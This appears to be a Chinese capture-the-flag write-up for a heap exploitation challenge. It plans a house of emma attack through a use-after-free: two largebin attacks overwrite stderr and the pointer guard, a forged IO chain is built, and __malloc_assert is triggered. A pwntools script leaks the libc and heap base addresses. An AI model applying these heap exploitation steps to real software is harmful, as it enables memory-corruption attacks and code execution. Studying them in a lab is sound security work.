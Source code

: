 ### 利用思路

存在UAF，可多次进行largbin attack

无法改写为任意地址，无法直接house of kiwi，考虑house of emma

- 泄露libc、heap基址

- 两次largbin attack改写`stderr`和`__pointer_chk_guard`
- 合理伪造stderr与IO链
- 触发`__malloc_assert`

## 堆布局与largbin attack

### leak

```python
add(0,0x420)
add(1,0x440)
add(2,0x440)#largebins(9)->fakestderr(after attack pointerguard)
add(3,0x440)
add(5,0x430)#(7)(8)->pointer guard
add(6,0x420)
delet(0)
delet(2)
show(0)#获取libc基址
sendit()

libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,b"\x00"))-0x1f2cc0
stderr_addr = libc_base + libc.sym['stderr']
fixed_heap_fdbk = libc_base + 0x1f30c0
setcontex61 = libc_base + 0x50bfd
point_guard = libc_base + 0x3c0740 + 0x30
log.success("libc_base = {}".format(hex(libc_base)))
log.success("stderr = {}".format(hex(stderr_addr)))
log.success("setcontex+61 = {}".format(hex(setcontex61)))
log.success("point_guard = {}".format(hex(point_guard)))
add(4,0x410)
edit(2,16,cyclic(16))
show(2)
sendit()

p.recvuntil("daaa")
heap_base = u64(p.recvn(6).ljust(8,b"\x00"))-0x880
log.success("heap0_base = {}".format(hex(heap_base)))
```

free掉任意一个unsorted bin可获取libc基址

> 问题：这里的chunk 0为什么能保持在unsorted bin中，而没有在循环开始malloc0x2000时放入large bin？
>
> 因为chunk 0和0x2000紧邻，每次完成循环都会触发合并，并在分配时被切下来
